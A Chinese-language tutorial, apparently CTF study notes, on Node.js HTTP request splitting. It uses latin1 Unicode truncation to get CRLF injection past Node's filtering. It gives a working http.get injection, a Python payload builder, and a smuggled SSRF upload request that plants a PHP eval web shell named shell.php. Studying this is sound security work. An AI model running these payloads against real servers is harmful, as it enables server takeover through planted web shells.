


# NodeJS HTTP 拆分攻击


## HTTP 请求路径中的 Unicode 字符损坏

虽然用户发出的 HTTP 请求通常将请求路径指定为字符串，但Node.js最终必须将请求作为原始字节输出。JavaScript支持unicode字符串，因此将它们转换为字节意味着选择并应用适当的Unicode编码。对于不包含主体的请求，Node.js默认使用“latin1”，这是一种单字节编码字符集，不能表示高编号的Unicode字符，例如🐶这个表情。所以，当我们的请求路径中含有多字节编码的Unicode字符时，会被截断取最低字节，比如 `\u0130` 就会被截断为 `\u30`



## Unicode 字符损坏造成的 HTTP 拆分攻击

由于 Nodejs 的 HTTP 库包含了阻止 CRLF 的措施，即如果你尝试发出一个 URL 路径中含有回车、换行或空格等控制字符的 HTTP 请求是，它们会被 URL 编码，所以正常的 CRLF 注入在 Nodejs 中并不能利用

通过在请求路径中包含精心选择的Unicode字符，攻击者可以欺骗Node.js并成功实现CRLF注入。

```
http.get('http://47.101.57.72:4000/\u0120HTTP/1.1\u010D\u010ASet-Cookie:\u0120PHPSESSID=whoami\u010D\u010Atest:').output [ 'GET /ĠHTTP/1.1čĊSet-Cookie:ĠPHPSESSID=whoamičĊtest: HTTP/1.1\r\nHost: 47.101.57.72:4000\r\nConnection: close\r\n\r\n' ]
```


这里需要注意的是使用了一个test：来闭合掉多余的HTTP/1.1

## 在 HTTP 状态行注入完整 HTTP 请求

首先，由于 NodeJS 的这个 CRLF 注入点在 HTTP 状态行，所以如果我们要注入完整的 HTTP 请求的话需要先闭合状态行中 `HTTP/1.1` ，即保证注入后有正常的 HTTP 状态行。其次为了不让原来的 `HTTP/1.1` 影响我们新构造的请求，我们还需要再构造一次 `GET /` 闭合原来的 HTTP 请求。

假设目标主机存在SSRF，需要我们在目标主机本地上传文件。我们需要尝试构造如下这个文件上传的完整 POST 请求

```
payload = ''' HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nk67astv61hqanskkddslkgst4
Connection: close

------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/octet-stream

<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \

print(payload)

# 输出: ĠHTTP/1.1čĊčĊPOSTĠ/upload.phpĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Length:Ġ437čĊContent-Type:Ġmultipart/form-data;Ġboundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6čĊUser-Agent:ĠMozilla/5.0Ġ(WindowsĠNTĠ10.0;ĠWin64;Ġx64)ĠAppleWebKit/537.36Ġ(KHTML,ĠlikeĠGecko)ĠChrome/90.0.4430.72ĠSafari/537.36čĊAccept:Ġtext/html,application/xhtmlīxml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9čĊAccept-Encoding:Ġgzip,ĠdeflatečĊAccept-Language:Ġzh-CN,zh;q=0.9čĊCookie:ĠPHPSESSID=nk67astv61hqanskkddslkgst4čĊConnection:ĠclosečĊčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢMAX_FILE_SIZEĢčĊčĊ100000čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢuploadedĢ;Ġfilename=Ģshell.phpĢčĊContent-Type:Ġapplication/octet-streamčĊčĊ<?phpĠeval($_POSTśĢwhoamiĢŝ);?>čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢUploadĢčĊčĊUploadčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6--čĊčĊGETĠ/ĠHTTP/1.1čĊtest:
```

## 流程分析

原始请求数据如下：

```http
GET / HTTP/1.1
Host: 47.101.57.72:4000
```

当我们插入CRLF数据后，HTTP请求数据变成了：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

 HTTP/1.1
Host: 47.101.57.72:4000
```

上次请求包的Host字段和状态行中的 `HTTP/1.1` 就单独出来了，所以我们再构造一个请求把他闭合：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test: HTTP/1.1
Host: 47.101.57.72:4000
```

学习例题：https://www.anquanke.com/post/id/241429#h2-6